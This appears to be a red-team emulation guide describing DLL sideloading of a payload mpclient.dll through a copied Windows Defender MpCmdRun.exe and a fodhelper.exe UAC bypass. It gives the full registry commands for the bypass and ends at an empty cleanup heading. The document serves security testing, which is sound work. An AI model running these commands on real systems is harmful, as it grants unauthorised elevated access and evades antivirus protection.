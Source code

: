 ## DLL Side Loading - General guidance

### Notes

- For an up-to-date list of side-loadable DLLs, refer to https://hijacklibs.net/

## DLL Search Order Hijacking - MpCmdRun.exe sideloading

MpCmdRun.exe is susceptible to a DLL sideloading hijack via its dependency on MpClient.dll

### Prerequisites

- A DLL with the appropriate exports called `mpclient.dll`
  - Use: https://github.com/2XXE-SRA/payload_resources/tree/master/dllsideload/mpclient

### Guidance

Copy `c:\program files\windows defender\mpcmdrun.exe` to the same directory as the `mpclient.dll` payload then run `mpcmdrun.exe`

## UAC Bypass - via fodhelper.exe

User Account Control is not a security control but can cause issues with execution when attempting privileged operations

Move to a high-integrity execution context via fodhelper.exe and a Registry modification. Fodhelper.exe is one of many unpatched methods for bypassing UAC.

### Prerequisites

- Split-token admin account

### Guidance

Check for the existence of the target registry key. If it exists, note the value so that it can be restored after execution.

```
cmd> reg query HKCU\Software\Classes\ms-settings\Shell\Open\command
```

Modify the registry key and execute fodhelper.exe to obtain an elevated command prompt:

```
cmd> 
reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /f
reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /ve /d "C:\windows\system32\cmd.exe" /f
reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /d "" /f
c:\windows\system32\fodhelper.exe
```

### Cleanup
